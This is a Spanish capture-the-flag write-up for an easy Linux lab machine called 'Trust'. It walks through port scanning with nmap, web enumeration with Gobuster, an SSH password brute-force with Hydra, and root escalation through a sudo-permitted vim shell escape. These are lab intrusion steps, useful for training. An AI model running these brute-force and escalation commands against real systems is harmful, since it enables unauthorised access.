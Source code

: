 ```yaml
---
title: Trust
published: false
---
```


 
| OS     | Dificultad  | Creator           |
| ------ | ----------- | -------------     | 
| Linux  | Super Fácil | ElPinguinoDeMario | 

## Contenidos
1. [Escaneo y Reconocimiento de puertos](#Escaneo-y-Reconocimiento-de-puertos)
2. [Enumeración Web](#Enumeración-Web)
3. [Ataque de fuerza bruta con Hydra](#Ataque-de-fuerza-bruta-con-Hydra)
4. [Intrusión y Escalada de privilegios](#Intrusión-y-Escalada-de-privilegios)


## Escaneo y Reconocimiento de puertos

Vamos a iniciar nuestro reconocimiento con un rápido escaneo de nmap.

![Reconocimiento](https://github.com/romabri/WriteUps/assets/51706860/9374ba63-c786-4e08-ae44-c3672d159e86)

`nmap -p- --open -sS -sC -sV --min-rate=5000 -vvv -n -Pn -oN escaneo 172.17.0.2`
- `-p-` - Busqueda de puertos abiertos
- `--open` - Enumera los puertos abiertos
- `-sS` - Es un modo de escaneo rapido
- `-sC-` - Que use un conjunto de scripts de reconocimiento
- `-sV` - Que encuentre la version del servicio abirto
- `--min-rate=5000` - Hace que el reconocimiento aun vaya mas rapido mandando no menos de 5000 paquetes
- `-n` - No hace resolución DNS
- `-Pn` - No hace ping
- `-vvv` - Muestra en pantalla a medida que encuentra puertos (Verbose)

Vemos que esta abierto el puerto 22 `SSH` y el puerto 80 `HTTP`

## Enumeración Web

Usamos `Gobuster` para hacer un reconocimiento web y ver que directorios podemos encontrar en dicho sitio.

`gobuster dir -u http://172.17.0.2/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php`
- `gobuster dir` - Indica que estás utilizando la herramienta Gobuster para realizar un escaneo de directorios.
- `-u http://172.20.10.5/` Especifica la URL objetivo que deseas escanear en busca de directorios.
- `-w` Especifica que diccionario queremos usar
- `-x` Para indicar que tipo de extension queremos que nos encuentre

![web](https://github.com/romabri/WriteUps/assets/51706860/ce0df111-f0a7-4abc-8d00-955226c4aec8)

Vemos que nos encuentra un directorio llamado secret.php. Si accedemos a él, vemos lo siguiente:

![web2](https://github.com/romabri/WriteUps/assets/51706860/127749c8-2bba-4eaa-a83b-6a640b960bf4)

Aparece el nombre de Mario, por lo que probablemente sea un posible usaurio.


## Ataque de fuerza bruta con Hydra

Como tenemos un possible usuario, vamos hacer un ataque de fuerza bruta con Hydra al protocolo ssh de la siguiente forma:

`hydra -l mario -P /usr/share/wordlists/rockyou.txt ssh://172.17.0.2`
- `-l` - Para especificar el usaurio
- `-P` - Para especificar que diccionario de fuerza bruta usaremos
- `ssh://172.17.0.2` - Especificamos que queremos atentar contra el protocolo SSH de la IP victima


![att](https://github.com/romabri/WriteUps/assets/51706860/4ff3c53d-abe0-434e-b23f-1e162b9f3dce)

Como vemos, existe el usuario `mario` y la contraseña es `chocolate`.


## Intrusión y Escalada de privilegios

Ahora accedemos vía SSH 

`ssh mario@172.17.0.2`

Si hacemos el comando `sudo -l`, vemos que tenemos permisos para ejecutar como sudo el binario `VIM`

Para poder escalar privilegios con este binario, hacemos lo siguiente:

``sudo /usr/bin/vim -c ':!/bin/sh'`` 

Esto nos lanzará una terminal pero en modo `ROOT` y ya habremos terminado la máquina.

![imagen](https://github.com/romabri/WriteUps/assets/51706860/34672299-f455-4af2-bd6e-edb5bb059d46)
